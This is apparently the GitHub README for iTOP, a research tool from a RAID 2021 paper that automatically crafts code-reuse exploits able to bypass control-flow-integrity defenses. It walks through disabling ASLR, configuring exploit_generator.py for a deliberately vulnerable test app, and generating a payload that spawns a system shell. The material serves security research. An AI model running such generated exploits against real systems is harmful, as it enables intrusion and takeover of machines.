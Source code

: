 # About
* This is the GitHub repository of the indirect transfer oriented programming (iTOP) tool. iTOP can be used for evaluating the potential for automated crafting of advanced code reuse attacks which can bypass state-of-the-art control flow integrity (CFI) policies. The goal is learn how these defenses can be further improved.

## Publication
RAID 2021 publication:

https://camps.aptaracorp.com/AuthorDashboard/dashboard.html?key=0&val=1827bb0e-d8d7-11eb-8d84-166a08e17233#

or

https://scholar.google.com/citations?view_op=view_citation&hl=en&user=goiWh_gAAAAJ&sortby=pubdate&citation_for_view=goiWh_gAAAAJ:fQNAKQ3IYiAC

## Demo Videos

* iTOP: exploit writing in ESL.
[![pic1.png](https://i.postimg.cc/6pF2ZBmX/pic1.png)](https://tinyurl.com/y6cmbvyt)

* iTOP: spawning a system shell exploit.
[![pic2.png](https://i.postimg.cc/QMW6gxNk/pic2.png)](https://tinyurl.com/y6a9gk7c)

* iTOP: spawning a system shell with no CFI policy used.
[![pic3.png](https://i.postimg.cc/9QX0qrpK/pic3.png)](https://tinyurl.com/yyvxncqj)

* iTOP: spawning a system shell with the VTint policy in-place.
[![pic4.png](https://i.postimg.cc/FFPBQ66S/pic4.png)](https://tinyurl.com/yyrso75k)


## Installation

To run iTOP, you need a python2 or pypy environment with angr and antlr4-python2-runtime installed. We recommend creating a python virtual environment. The steps to set one up with the proper packages are outlined below.

1. create python2 virtualenv using virtualenv, virtualenvwrapper, conda, pipenv, or similar::

    $ virtualenv autocoop

2. enter virtualenv & install requirements::

    source autocoop/bin/activate
    pip install -r requirements.txt

3. make sure that "." is in the $PYTHONPATH::

    export PYTHONPATH=.:$PYTHONPATH


## Running iTOP

To generate a payload with iTOP, some setup is required. To make results reproducible, ASLR has to be disabled, and the exploit generation script has to be updated with the proper base library address for your system. In a real attack, this information can be extracted using information leaks. Running the lxs script with everything configured correctly will lead to a call to 'system("/bin/sh")'.

1. disable aslr::

    $ cd exploitable_app
    $ ./disable_aslr.sh

2. run lxs::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    ...

3. update lib base address in exploit_generator.py::

    <Auto-COOP/tool/exploit_generator.py>
    ...
    config = Config("exploitable_app/nodejs/libnode.so",
                      0x7ffff7ff2000, <-- UPDATE THIS
                      0xa0000000,
                      4096,
                      )
    ...

4. generate the payload::

    $ export PYTHONPATH=.
    $ python autocoop/exploit_generator.py esl_scripts/testsuite_coop/shell.esl

5. run lxs again::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    [+] fd 3
    [+] execute w00t..
    $

6. you just spawned a shell!
